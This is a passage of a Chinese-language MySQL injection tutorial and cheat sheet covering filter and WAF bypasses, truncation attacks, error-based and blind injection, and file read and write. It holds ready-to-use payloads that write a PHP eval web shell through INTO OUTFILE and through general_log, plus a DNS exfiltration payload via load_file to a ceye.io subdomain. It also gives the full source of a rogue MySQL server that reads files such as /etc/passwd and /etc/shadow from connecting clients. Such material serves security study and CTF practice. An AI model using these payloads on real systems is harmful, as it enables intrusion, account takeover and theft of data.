UNION SELECT  "<?php eval($_POST['h3rmesk1t'])?>" INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\webshell.php';
```

### 约束攻击
先建立一个用户表:

```sql
CREATE TABLE users(
    username varchar(20),
    password varchar(20)
)
```

表单中的注册代码逻辑:

```php
<?php
    $conn = mysqli_connect("127.0.0.1:3307", "root", "root", "db");
    if (!$conn) {
        die("Connection failed: " . mysqli_connect_error());
    }
    $username = addslashes(@$_POST['username']);
    $password = addslashes(@$_POST['password']);
    $sql = "select * from users where username = '$username'";
    $rs = mysqli_query($conn,$sql);
    if($rs->fetch_row()){
        die('账号已注册');
    }else{
        $sql2 = "insert into users values('$username','$password')";
        mysqli_query($conn,$sql2);
        die('注册成功');
    }
?>
```

表单中的登录代码逻辑:

```php
<?php
    $conn = mysqli_connect("127.0.0.1:3307", "root", "root", "db");
    if (!$conn) {
        die("Connection failed: " . mysqli_connect_error());
    }
    $username = addslashes(@$_POST['username']);
    $password = addslashes(@$_POST['password']);
    $sql = "select * from users where username = '$username' and password = '$password';";
    $rs = mysqli_query($conn,$sql);
    if($rs->fetch_row()){
        $_SESSION['username'] = $password;
    }else{
        echo "fail";
    }
?>
```

在上述代码中无编码问题, 且进行了单引号的处理, 但其仍可能存在`SQL`注入问题. 在上文创建表的语句中限制了`username`和`password`的长度最大为`20`, 当插入数据超过`20`时, `MySQL`会截取前边的`20`个字符进行插入. 而对于`SELECT`查询请求, 若查询的数据超过`20`长度, 也不会进行截取操作, 这也就造成了约束攻击的攻击点.

对于注册处的代码来说, 需要先判断注册的用户名是否存在, 再进行插入数据操作. 假设注册一个`username=admin[20个空格]x&password=123456`的账号, 服务器会先查询`admin[20个空格]x`的用户是否存在. 若存在, 则不能注册; 若不存在, 则进行插入数据的操作. 而此处限制了`username`与`password`字段长度最大为`20`, 所以实际插入的数据为`username=admin[15个空格]&password=123456`. 接着进行登录时, 使用`username=admin&password=123456`即可成功登录`admin`的账号.


# MySQL 注入 Trick
## 常见防御手段绕过
随着`SQL`注入手段的不断增加, 越来越多的防御手段也不断出现. 很多时候, 输入的内容会经常遇到各种各样的过滤拦截. 过滤: 输入的部分内容在拼接`SQL`语句之前被程序删除掉了, 接着将过滤之后的内容拼接到`SQL`语句并继续与数据库通信. 拦截: 对输入部分的内容进行检测, 若检测到指定的内容存在, 则直接返回拦截页面, 同时不会进行拼接`SQL`语句并与数据库通信的操作.

### 空格
 1. 多层括号嵌套, 在`MySQL`中, 括号是用来包围子查询的, 因此任何可以计算出结果的语句都可以用括号包围起来.
 2. 将空格替换成`+`.
 3. 将空格替换注释, 如: `/**/`, `/*!*/`.
 4. `and`/`or`后面可以跟上偶数个`!`、`~`可以替代空格, 也可以混合使用(但是规律会不同), `and`/`or`前的空格可用省略.
 5. `%09`, `%0a`, `%0b`, `%0c`, `%0d`, `%a0`等部分不可见字符可也代替空格.

```sql
select * from users where username='h3rmesk1t'union(select+ctf,flag/**/from/*!article*/where/**/id='1'and!!!!~~1=1)
```

### 括号
 1. `order by`大小比较盲注.

### 逗号
 1. 盲注.
 2. 使用`like`语句代替, 例如: `select ascii(mid(user(),1,1))=80`等价于`select user() like 'r%'`.
 3. 使用`join`语句代替, 例如: `UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c);`就相当于`UNION SELECT 1,2,3;`.
 4. 利用`from for`或者`limit offset`, 例如: `substr(data from 1 for 1)`相当于`substr(data,1,1)`、`limit 9 offset 4`相当于`limt 9,4`.

### and/or
 1. 双写绕过, 例如: `anandd`、`oorr`.
 2. 使用运算符代替, 例如: `&&`、`||`.
 3. 直接拼接`=`号, 例如: `?id=1=(condition)`.
 4. 其他方法, 例如: `?id=1^(condition)`.

### 单双引号
 1. 需要跳出单引号的情况：尝试是否存在编码问题而产生的`SQL`注入.
 2. 不需要跳出单引号的情况: 字符串可用十六进制表示, 也可通过进制转换函数表示成其他进制, 如`char()`.

### 系统关键词
 1. 双写绕过关键字过滤.
 2. 大小写绕过, `SQL`语句忽略关键词是否大小写, 但是`WAF`基本上拦截都是大小写一起拦截的.
 3. 使用同义函数/语句代替, 如`if`函数可用`case when condition then 1 else 0 end`语句代替.

### 数字
使用`conv([10-36],10,36)`可以实现所有字符的表示.

```sql
false, !pi()                    0
true, !!pi()                    1
true+true                       2
floor(pi())                     3
ceil(pi())                      4
floor(version())                5
ceil(version())                 6
ceil(pi()+pi())                 7
floor(version()+pi())           8
floor(pi()*pi())                9
ceil(pi()*pi())                 10 A
ceil(pi()*pi())+true            11 B
ceil(pi()+pi()+version())       12 C
floor(pi()*pi()+pi())           13 D
ceil(pi()*pi()+pi())            14 E
ceil(pi()*pi()+version())       15 F
floor(pi()*version())           16 G
ceil(pi()*version())            17 H
ceil(pi()*version())+true       18 I
floor((pi()+pi())*pi())         19 J
ceil((pi()+pi())*pi())          20 K
ceil(ceil(pi())*version())      21 L
ceil(pi()*ceil(pi()+pi()))      22 M
ceil((pi()+ceil(pi()))*pi())    23 N
ceil((pi()+ceil(pi()))*pi())    23 N
ceil(pi())*ceil(version())      24 O
floor(pi()*(version()+pi()))    25 P
floor(version()*version())      26 Q
ceil(version()*version())       27 R
ceil(pi()*pi()*pi()-pi())       28 S
floor(pi()*pi()*floor(pi()))    29 T
```

## 编码转换产生的问题
在上文中谈到了宽字节注入的相关利用方式, 处理`gbk`造成的编码问题, 继续看看另一个经典的编码问题" `latin1`造成的编码问题.

示例代码如下:

```php
<?php
// 代码节选自: 离别歌's blog
    $mysqli = new mysqli("localhost", "root", "root", "cat");

    /* check connection */
    if ($mysqli->connect_errno) {
        printf("Connect failed: %s\n", $mysqli->connect_error);
        exit();
    }

    $mysqli->query("set names utf8");
    $username = addslashes($_GET['username']);

    if($username === 'admin'){
        die("You can't do this.");
    }

    /* Select queries return a resultset */
    $sql = "SELECT * FROM `table1` WHERE username='{$username}'";

    if ($result = $mysqli->query( $sql )) {
        printf("Select returned %d rows.\n", $result->num_rows);

        while ($row = $result->fetch_array(MYSQLI_ASSOC)) {
            var_dump($row);
        }

        /* free result set */
        $result->close();
    } else {
        var_dump($mysqli->error);
    }

    $mysqli->close();
?>
```

建表语句如下:

```sql
CREATE TABLE `table1` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(255) COLLATE latin1_general_ci NOT NULL,
  `password` varchar(255) COLLATE latin1_general_ci NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM AUTO_INCREMENT=1 DEFAULT CHARSET=latin1 COLLATE=latin1_general_ci;
```

在建表语句中设置表的编码为`latin1`, 事实上, 默认编码也是`latin1`. 往表中添加一条数据: `insert table1 VALUES(1,'admin','admin');`.

在示例代码中, `if($username === 'admin'){die("You can't do this.");}`对用户的输入进行了判断, 若输入内容为`admin`, 直接结束代码输出返回, 并且还对输出的内容进行`addslashes`处理, 使得无法逃逸出单引号.

注意到, 示例代码中存在一句代码`$mysqli->query("set names utf8");`, 在连接到数据库之后会执行该`SQL`语句, 其相当于:

```sql
SET character_set_client = 'utf8';
SET character_set_results = 'utf8';
SET character_set_connection = 'utf8';
```

此时会产生一个问题: `PHP`的编码是`UTF-8`, 而现在设置的也是`UTF-8`. 上文提到了`SQL`语句会先转成`character_set_client`设置的编码, 当`character_set_client`客户端层转换完毕之后, 数据将会交给`character_set_connection`连接层处理, 最后在从`character_set_connection`转到数据表的内部操作字符集, 在该问题中, 字符集的转换为: `UTF-8—>UTF-8->Latin1`.

`UTF-8`编码是变长编码, 可能有`1~4`个字节表示:
 - 一字节时范围是[00-7F].
 - 两字节时范围是[C0-DF][80-BF]
 - 三字节时范围是[E0-EF][80-BF][80-BF]
 - 四字节时范围是[F0-F7][80-BF][80-BF][80-BF]

而根据`RFC 3629`规范, 部分字节值是不允许出现在`UTF-8`编码中的, 参考[UTF-8](https://zh.wikipedia.org/wiki/UTF-8#:~:text=%E6%A0%B9%E6%8D%AE%E8%BF%99%E7%A7%8D%E6%96%B9%E5%BC%8F%E5%8F%AF%E4%BB%A5%E5%A4%84%E7%90%86%E6%9B%B4%E5%A4%A7%E6%95%B0%E9%87%8F%E7%9A%84%E5%AD%97%E7%AC%A6%E3%80%82%E5%8E%9F%E6%9D%A5%E7%9A%84%E8%A7%84%E8%8C%83%E5%85%81%E8%AE%B8%E9%95%BF%E8%BE%BE6%E5%AD%97%E8%8A%82%E7%9A%84%E5%BA%8F%E5%88%97%EF%BC%8C%E5%8F%AF%E4%BB%A5%E8%A6%86%E7%9B%96%E5%88%B031%E4%BD%8D%EF%BC%88%E9%80%9A%E7%94%A8%E5%AD%97%E7%AC%A6%E9%9B%86%E5%8E%9F%E6%9D%A5%E7%9A%84%E6%9E%81%E9%99%90%EF%BC%89%E3%80%82%E5%B0%BD%E7%AE%A1%E5%A6%82%E6%AD%A4%EF%BC%8C2003%E5%B9%B411%E6%9C%88UTF%2D8%E8%A2%ABRFC%C2%A03629%E9%87%8D%E6%96%B0%E8%A7%84%E8%8C%83%EF%BC%8C%E5%8F%AA%E8%83%BD%E4%BD%BF%E7%94%A8%E5%8E%9F%E6%9D%A5Unicode%E5%AE%9A%E4%B9%89%E7%9A%84%E5%8C%BA%E5%9F%9F%EF%BC%8CU%2B0000%E5%88%B0U%2B10FFFF%E3%80%82%E6%A0%B9%E6%8D%AE%E8%BF%99%E4%BA%9B%E8%A7%84%E8%8C%83%EF%BC%8C%E4%BB%A5%E4%B8%8B%E5%AD%97%E8%8A%82%E5%80%BC%E5%B0%86%E6%97%A0%E6%B3%95%E5%87%BA%E7%8E%B0%E5%9C%A8%E5%90%88%E6%B3%95UTF%2D8%E5%BA%8F%E5%88%97%E4%B8%AD%EF%BC%9A). 所以`UTF-8`第一字节的取值范围是`00-7F`和`C2-F4`. [所有的 UTF-8 字符](https://utf8-chartable.de/unicode-utf8-table.pl).

<div align=center></div>

利用上述这一特性, 可以利用`admin%c2`来绕过, `%c2`是一个`Latin1`字符集不存在的字符, `admin%c2`在最后一层的内部操作字符集转换中变成`admin`. 由上文可知, `%00-%7F`可以直接表示某个字符, 而`%C2-%F4`不可以直接表示某个字符, 它们只是其它长字节编码结果的首字节. 

在`Mysql`所使用的`UTF-8`编码是阉割版的, 仅支持三个字节的编码, 因此其字符集只有最大三字节的字符, 首字节范围: `00-7F`、`C2-EF`. 而对于不完整的长字节`UTF-8`编码的字符进行字符集转换时, 会直接进行忽略处理. 利用这一特性, `payload`中的`%2c`可以换成`%c2-%ef`.

## 报错注入补充
`MySQL`报错注入分为以下几类:
 - `BigInt`等数据类型溢出.
 - 函数参数格式错误.
 - 主键/字段重复.

### uuid 相关函数
该`Trick`适用`MySQL`的版本为`8.0.x`, 利用参数格式不正确来进行报错注入.

```sql
SELECT UUID_TO_BIN((SELECT password FROM users WHERE id=1));
SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```

### Bigint 数值操作
当`MySQL`数据库的某些边界数值进行数值运算时, 可能会由于数值过大从而导致报错. 如`~0`的结果为`18446744073709551615`, 若此数参与运算, 则很容易会错误.

`Payload`: `select !(select * from(select user())a)-~0;`.

### 虚拟表报错原理
参考: [rand()+group()+count()](https://xz.aliyun.com/t/7169#:~:text=%E6%AE%B5%E8%BF%9B%E8%A1%8C%E5%88%86%E7%BB%84%E3%80%82-,%E6%AD%A4%E8%BF%87%E7%A8%8B%E4%BC%9A%E5%85%88%E5%BB%BA%E7%AB%8B%E4%B8%80%E4%B8%AA%E8%99%9A%E6%8B%9F%E8%A1%A8,-%EF%BC%8C%E5%AD%98%E5%9C%A8%E4%B8%A4%E4%B8%AA).

`Payload`: `union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a`.

### name_const
可以用来获取数据库版本信息, `Payload`: `select * from(select name_const(version(),0x1),name_const(version(),0x1))a`.

<div align=center></div>

### join using
系统关键词`join`可建立两个表之间的内连接, 通过对想要查询列名的表与其自身建议内连接, 会由于冗余的原因(相同列名存在)而发生错误. 并且报错信息会存在重复的列名, 可以使用`using`表达式声明内连接(inner join)条件来避免报错.

```sql
select * from(select * from users a join (select * from users)b)c;
select * from(select * from users a join (select * from users)b using(username))c;
select * from(select * from users a join (select * from users)b using(username,password))c
```

### GTID 相关函数
该`Trick`适用`MySQL`的版本为`5.6.x`, `5.7.x`, `8.x`, 利用参数格式不正确来进行报错注入.

```sql
select gtid_subset(user(),1);
select gtid_subset(hex(substr((select * from users limit 1,1),1,1)),1);
select gtid_subtract((select * from(select user())a),1);
```
## 文件读写
上文在对文件读写内容进行讲解时提到了, `file_priv`是对于用户的文件读写权限, 若无权限则不能进行文件读写操作. `secure-file-priv`是一个系统变量, 对于文件读/写功能进行限制, 具体如下:
 - 无内容, 表示无限制.
 - 为`NULL`, 表示禁止文件读/写.
 - 为目录名, 表示仅允许对特定目录的文件进行读/写.

`MySQL 5.5.53`本身及之后版本`secure-file-priv`的默认值为`NULL`, 之前的版本为无内容, 三种方法查看当前`secure-file-priv`的值:

```sql
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv";
```

修改`secure-file-priv`的方式有如下两种:
 - 通过修改`my.ini`文件, 添加`secure-file-priv=xxxx`.
 - 启动项添加参数`mysqld.exe --secure-file-priv=xxxx`.


### 低权限读取文件
`MySQL 5.5.53`版本中, `secure-file-priv=NULL`读文件`Payload`如下:

```sql
drop table mysql.m1;
CREATE TABLE mysql.m1 (code TEXT );
LOAD DATA LOCAL INFILE 'D://flag.txt' INTO TABLE mysql.m1 fields terminated by '';
select * from mysql.m1;
```

### MySQL 连接数据库时读取文件
该漏洞利用方式基于`load data local infile`读取文件方式. 简单来说, 客户端在执行`load data local`语句的时, 会先向`MySQL`服务端发送请求, 服务端接收到请求并返回需要读取的文件地址, 客户端接收该地址并进行读取, 接着将读取到的内容发送给服务端. 具体的攻击流程细节参考: [CSS-T | Mysql Client 任意文件读取攻击链拓展](https://paper.seebug.org/1112/)

简易恶意服务端代码, 摘自[Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server), 这个过程需要客户端允许使用`load data local`, 并且该信息在客户端尝试连接到服务端的数据包中可以找到:

```python
#!/usr/bin/env python
#coding: utf8

import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers

PORT = 3306
log = logging.getLogger(__name__)
log.setLevel(logging.DEBUG)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
#    r'c:\boot.ini',
    r'c:\windows\win.ini',
#    r'c:\windows\system32\drivers\etc\hosts',
#    '/etc/passwd',
#    '/etc/shadow',
)

#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
    null=os.open('/dev/null', os.O_RDWR)
    for i in xrange(3):
        try:
            os.dup2(null, i)
        except OSError as e:
            if e.errno != 9: raise
    os.close(null)

class LastPacket(Exception):
    pass

class OutOfOrder(Exception):
    pass

class mysql_packet(object):
    packet_header = struct.Struct('<Hbb')
    packet_header_long = struct.Struct('<Hbbb')
    def __init__(self, packet_type, payload):
        if isinstance(packet_type, mysql_packet):
            self.packet_num = packet_type.packet_num + 1
        else:
            self.packet_num = packet_type
        self.payload = payload

    def __str__(self):
        payload_len = len(self.payload)
        if payload_len < 65536:
            header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
        else:
            header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

        result = "{0}{1}".format(
            header,
            self.payload
        )
        return result

    def __repr__(self):
        return repr(str(self))

    @staticmethod
    def parse(raw_data):
        packet_num = ord(raw_data[0])
        payload = raw_data[1:]

        return mysql_packet(packet_num, payload)

class http_request_handler(asynchat.async_chat):

    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',  # Protocol
                    '3.0.0-Evil_Mysql_Server' + '\0',  # Version
                    #'5.1.66-0+squeeze1' + '\0',
                    '\x36\x00\x00\x00',  # Thread ID
                    'evilsalt' + '\0',  # Salt
                    '\xdf\xf7',  # Capabilities
                    '\x08',  # Collation
                    '\x02\x00',  # Server Status
                    '\0' * 13,  # Unknown
                    'evil2222' + '\0',
                ))
            )
        )

        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
                        ))
                        raise LastPacket()
                    elif packet.payload[0] in '\x02':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    elif packet.payload == '\x00\x01':
                        self.push(None)
                        self.close_when_done()
                    else:
                        raise ValueError()
                else:
                    if self.sub_state == 'File':
                        log.info('-- result')
                        log.info('Result: %r', data)

                        if len(data) == 1:
                            self.push(
                                mysql_packet(packet, '\0\0\0\x02\0\0\0')
                            )
                            raise LastPacket()
                        else:
                            self.set_terminator(3)
                            self.state = 'LEN'
                            self.order = packet.packet_num + 1

                    elif self.sub_state == 'Auth':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    else:
                        log.info('-- else')
                        raise ValueError('Unknown packet')
            except LastPacket:
                log.info('Last packet')
                self.state = 'LEN'
                self.sub_state = None
                self.order = 0
                self.set_terminator(3)
            except OutOfOrder:
                log.warning('Out of order')
                self.push(None)
                self.close_when_done()
        else:
            log.error('Unknown state')
            self.push('None')
            self.close_when_done()

class mysql_listener(asyncore.dispatcher):
    def __init__(self, sock=None):
        asyncore.dispatcher.__init__(self, sock)

        if not sock:
            self.create_socket(socket.AF_INET, socket.SOCK_STREAM)
            self.set_reuse_addr()
            try:
                self.bind(('', PORT))
            except socket.error:
                exit()

            self.listen(5)

    def handle_accept(self):
        pair = self.accept()

        if pair is not None:
            log.info('Conn from: %r', pair[1])
            tmp = http_request_handler(pair)

z = mysql_listener()
daemonize()
asyncore.loop()
```

### 写日志法
由于`MySQL 5.5.53`版本之后, `secure-file-priv`的值默认为`NULL`, 这使得正常读取文件的操作基本不可行, 这里可以利用`MySQL`生成日志文件的方法来绕过.

`MySQL`日志文件的一些相关设置可以直接通过命令来进行, 之后再让数据库执行满足记录条件的恶意语句即可, 使用要求:
 - 可以进行日志的设置操作的权限.
 - 知道目标目录的绝对路径.

```sql
请求日志:
set global general_log_file = '/var/www/html/shell.php';
set global general_log = on;

慢查询日志:
set global slow_query_log_file='/var/www/html/shell.php'
set global slow_query_log = on;
set global log_queries_not_using_indexes = on;
```

## DNSLOG 外带数据
参考: [Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096).

这里推荐`ceye.io`, 这个平台就集成了`DNSLOG`的功能, 不需要自己搭建`DNS`服务器. `Payload`: `load_file(concat('\\\\',(select user()),'.xxxx.ceye.io\xxxx'))`.

`DNSLOG`外带数据应用场景:
 - 三大注入无法使用.
 - 有文件读取权限及`secure-file-priv`无值.
 - 不知道网站/目标文件/目标目录的绝对路径.
 - 目标系统为`Windows`.

在`Windows`中, 路径以`\\`开头的路径在`Windows`中被定义为`UNC`路径, 相当于网络硬盘一样的存在, 所以填写域名的话, `Windows`会先进行`DNS`查询. 但是对于`Linux`并没有这一标准, 所以`DNSLOG`在`Linux`环境不适用.

## ORDER BY 比较盲注
`order by`比较盲注常用于字符截取/比较限制很严格的情况下. 例如: `select username,flag,password from users where username='$username;'`. 

`Payload`: `select username,flag,password from users where username='admin' union select 1,'a',3 order by 2;`, 通过判断前后两个`select`语句返回的数据前后顺序来进行盲注.

## 常见函数/符号
### 注释符
 - 单行注释: `#`, `-- x`(x为任意字符), `;%00`.
 - 多行(内联)注释: `/*任意内容*/`.

### 进制转换

|函数|说明|
|:----:|:----:|
|ORD(str)|返回字符串第一个字符的`ASCII`值.|
|OCT(N)以字符串形式返回`N`的八进制数, `N`是一个`BIGINT`型数值, 作用相当于`CONV(N,10,8)`.|
|HEX(N_S)|参数为字符串时, 返回`N_or_S`的`16`进制字符串形式; 为数字时, 返回其`16`进制数形式.|
|UNHEX(str)|`HEX(str)`的逆向函数, 将参数中的每一对`16`进制数字都转换为`10`进制数字, 然后再转换成`ASCII`码所对应的字符.|
|BIN(N)|返回十进制数值`N`的二进制数值的字符串表现形式.|
|ASCII(str)|同`ORD(string)`.|
|CONV(N,from_base,to_base)|将数值型参数`N`由初始进制`from_base`转换为目标进制`to_base`的形式并返回.|
|CHAR(N,... [USING charset_name])|将每一个参数`N`都解释为整数, 返回由这些整数在`ASCII`码中所对应字符所组成的字符串.|

### 字符截取/拼接
|函数|说明|
|:----:|:----:|
|SUBSTR(str,N_start,N_length)|对指定字符串进行截取, 为`SUBSTRING`的简单版.|
|SUBSTRING()|多种格式`SUBSTRING(str,pos)`、`SUBSTRING(str FROM pos)`、`SUBSTRING(str,pos,len)`、`SUBSTRING(str FROM pos FOR len)`.|
|RIGHT(str,len)|对指定字符串从最右边截取指定长度.|
|LEFT(str,len)|对指定字符串从最左边截取指定长度.|
|RPAD(str,len,padstr)|在`str`右方补齐`len`位的字符串`padstr`, 返回新字符串. 如果`str`长度大于`len`, 则返回值的长度将缩减到`len`所指定的长度.|
|LPAD(str,len,padstr)|与`RPAD`相似, 在`str`左边补齐.|
|MID(str,pos,len)|同于`SUBSTRING(str,pos,len)`.|
|INSERT(str,pos,len,newstr)|在原始字符串`str`中, 将自左数第`pos`位开始, 长度为`len`个字符的字符串替换为新字符串`newstr`, 然后返回经过替换后的字符串, `INSERT(str,len,1,0x0)`可当做截取函数.|
|CONCAT(str1,str2...)|函数用于将多个字符串合并为一个字符串.|
|GROUP_CONCAT(...)|返回一个字符串结果, 该结果由分组中的值连接组合而成.|
|MAKE_SET(bits,str1,str2,...)|根据参数1, 返回所输入其他的参数值, 可用作布尔盲注, 例如: `EXP(MAKE_SET((LENGTH(DATABASE())>8)+1,'1','710'))`.|

### 其他常用函数/语句

|函数/语句|说明|
|:----:|:----:|
|LENGTH(str)|返回字符串的长度.|
|PI()|返回`π`的具体数值.|
|REGEXP "statement"|正则匹配数据, 返回值为布尔值.|
|LIKE "statement"|匹配数据, `%`代表任意内容, 返回值为布尔值.|
|RLIKE "statement"|与`regexp`相同.|
|LOCATE(substr,str,[pos])|返回子字符串第一次出现的位置.|
|POSITION(substr IN str)|等同于`LOCATE()`.|
|LOWER(str)|将字符串的大写字母全部转成小写, 同`LCASE(str)`.|
|UPPER(str)|将字符串的小写字母全部转成大写,同`UCASE(str)`.|
|ELT(N,str1,str2,str3,...)|与`MAKE_SET(bit,str1,str2...)`类似, 根据`N`返回参数值.|
|NULLIF(expr1,expr2)|若`expr1`与`expr2`相同, 则返回`expr1`, 否则返回`NULL`.|
|CHARSET(str)|返回字符串使用的字符集.|
|DECODE(crypt_str,pass_str)|使用`pass_str`作为密码, 解密加密字符串`crypt_str`; 加密函数`ENCODE(str,pass_str)`.|

## SELECT 绕过
当`select`关键词被过滤时, 可以用`handler`语句来代替`select`进行查询. 这是因为, `handler`语句可以一行一行的浏览一个表中的数据, 不过`handler`语句并不具备`select`语句的所有功能, 它只是`MySQL`专用的语句, 并没有包含到`SQL`标准中.

`handler`语法结构:

```sql
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```

```sql
handler users open as h3rmesk1t;     # 指定数据表进行载入并将返回句柄重命名
handler h3rmesk1t read first;        # 读取指定表/句柄的首行数据
handler h3rmesk1t read next;         # 读取指定表/句柄的下一行数据
handler h3rmesk1t read next;         # 读取指定表/句柄的下一行数据
...
handler h3rmesk1t close;             # 关闭句柄
```

## PHP/union.+?select/ig 绕过
在有些特定情况下会出现禁止`union`与`select`同时出现, 从而引入正则语句`/union.+?select/ig`来判断输入数据.

`PHP`为了防止正则表达式的拒绝服务攻击(reDOS), 给`pcre`设定了一个回溯次数上限`pcre.backtrack_limit`, 若输入的数据使得`PHP`进行回溯且此数超过了规定的回溯上限此数(默认为`100`万), 那么正则停止, 返回未匹配到数据, 故可以构造`Payload`: `union/a*100w(充当垃圾数据)/select即可绕过正则判断`. 参考: [PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html).

## SYS 系统库
```sql
# 查询所有的库.
SELECT table_schema FROM sys.schema_table_statistics GROUP BY table_schema;
SELECT table_schema FROM sys.x$schema_flattened_keys GROUP BY table_schema;

# 查询指定库的表(若无则说明此表从未被访问).
SELECT table_name FROM sys.schema_table_statistics WHERE table_schema='mspwd' GROUP BY table_name;
SELECT table_name FROM  sys.x$schema_flattened_keys WHERE table_schema='mspwd' GROUP BY table_name;

# 统计所有访问过的表次数: 库名, 表名, 访问次数.
select table_schema,table_name,sum(io_read_requests+io_write_requests) io from sys.schema_table_statistics group by table_schema,table_name order by io desc;

# 查看所有正在连接的用户详细信息: 连接的用户(连接的用户名, 连接的ip), 当前库, 用户状态(Sleep就是空闲), 现在在执行的sql语句, 上一次执行的sql语句, 已经建立连接的时间(秒).
SELECT user,db,command,current_statement,last_statement,time FROM sys.session;

# 查看所有曾连接数据库的IP, 总连接次数.
SELECT host,total_connections FROM sys.host_summary;
```

|视图 -> 列名|说明|
|:----:|:----:|
| host_summary -> host、total_connections                      | 历史连接IP、对应IP的连接次数                     |
| innodb_buffer_stats_by_schema -> object_schema               | 库名                                             |
| innodb_buffer_stats_by_table -> object_schema、object_name   | 库名、表名(可指定)                               |
| io_global_by_file_by_bytes -> file                           | 路径中包含库名                                   |
| io_global_by_file_by_latency -> file                         | 路径中包含库名                                   |
| processlist -> current_statement、last_statement             | 当前数据库正在执行的语句、该句柄执行的上一条语句 |
| schema_auto_increment_columns -> table_schema、table_name、column_name | 库名、表名、列名                                 |
| schema_index_statistics -> table_schema、table_name          | 库名、表名                                       |
| schema_object_overview -> db                                 | 库名                                             |
| schema_table_statistics -> table_schema、table_name          | 库名、表名                                       |
| schema_table_statistics_with_buffer -> table_schema、table_name | 库名、表名                                       |
| schema_tables_with_full_table_scans -> object_schema、object_name | 库名、表名(全面扫描访问)                         |
| session -> current_statement、last_statement                 | 当前数据库正在执行的语句、该句柄执行的上一条语句 |
| statement_analysis -> query、db                              | 数据库最近执行的请求、对于请求访问的数据库名     |
| version -> mysql_version                                     | mysql版本信息                                    |
| x$innodb_buffer_stats_by_schema                              | 同innodb_buffer_stats_by_schema                  |
| x$innodb_buffer_stats_by_table                               | 同innodb_buffer_stats_by_table                   |
| x$io_global_by_file_by_bytes                                 | 同io_global_by_file_by_bytes                     |
| x$schema_flattened_keys -> table_schema、table_name、index_columns | 库名、表名、主键名                               |
